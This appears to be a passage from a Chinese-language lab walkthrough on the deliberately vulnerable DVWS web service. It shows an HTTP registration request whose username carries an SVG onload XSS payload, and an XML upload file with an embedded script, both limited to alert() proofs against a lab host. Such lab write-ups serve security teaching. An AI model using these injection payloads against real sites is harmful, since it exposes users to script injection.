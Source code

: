 细心的朋友也许可能会发现其实在 DVWS 的登录区域中也存在一处 XSS 漏洞，注册用户时我们将一下请求发送到后端 API

```bash
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```

[![](assets/1706957905-7ceadf50a8c8e351b480dbeaeba0446b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094016-040dd960-c16c-1.png)

在这里我们还要扩展一个通过上传 XML 文件导致 XSS 的示例，构造如下带有 XHTML 的 XML 文件：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作

[![](assets/1706957905-eb958e1398b8eb72f6df460f1d6736b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094044-1491b66c-c16c-1.png)
